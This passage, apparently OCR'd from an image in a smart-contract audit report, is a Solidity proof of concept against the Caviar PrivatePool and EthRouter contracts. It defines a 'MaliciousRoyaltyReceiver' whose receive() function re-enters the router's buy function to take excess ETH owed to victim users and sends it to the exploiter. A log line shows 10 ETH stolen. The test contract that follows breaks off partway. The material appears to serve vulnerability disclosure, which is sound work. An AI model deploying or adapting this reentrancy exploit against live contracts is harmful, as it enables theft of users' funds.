 ```solidity
   | Stolen excess ETH:           10.0 ETH
  ============================================
```
```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.19;

import {Ownable} from "@openzeppelin/contracts/access/Ownable.sol";
import {ERC721Royalty} from "@openzeppelin/contracts/token/ERC721/extensions/ERC721Royalty.sol";

import {ERC721TokenReceiver} from "solmate/tokens/ERC721.sol";

import "./Fixture.sol";

/**
 * @notice Needed functions interface of the ERC2981 NFT contract that we will use for this PoC.
 * @dev https://polygonscan.com/address/0x1024Accd05Fa01AdbB74502DBDdd8e430d610c53#code
 */
interface IPixels {
    function creatorOf(uint256) external view returns (address);

    function setCreatorRedirect(address to) external;
}

/**
 * @title AttackerContract.
 * @notice The main logic for exploiting the vulnerability in PrivatePool.sol.
 */
contract MaliciousRoyaltyReceiver is Ownable, ERC721TokenReceiver {
    /// @notice The on-chain NFT collection contract that we will use for this PoC.
    ERC721Royalty nft;

    /// @notice the Caviar EthRouter contract.
    EthRouter router;

    /**
     * @param _nft The on-chain NFT collection contract that we will use for this PoC.
     * @param _router the Caviar EthRouter contract.
     */
    constructor(address _nft, address _router) {
        nft = ERC721Royalty(_nft);
        router = EthRouter(payable(_router));
    }

    /// @notice Used to perform cross contract re-entrancy and steal excess funds from victim users.
    receive() external payable {
        // This will steal all excess tokens that are currently transferred back to the pool.
        router.buy(new EthRouter.Buy[](0), 0, false);

        // Transfer the stolen amount to the owner/exploiter.
        (bool success, ) = owner().call{value: address(this).balance}("");
        require(success);
    }
}

contract RoyaltyReceiverStealExcessEthTest is Fixture {
    /// @notice The NFT collection contract that is used by the private pool.
    ERC721Royalty public nft;

    /// @notice The vulnerable Caviar private pool.
    PrivatePool public privatePool;

```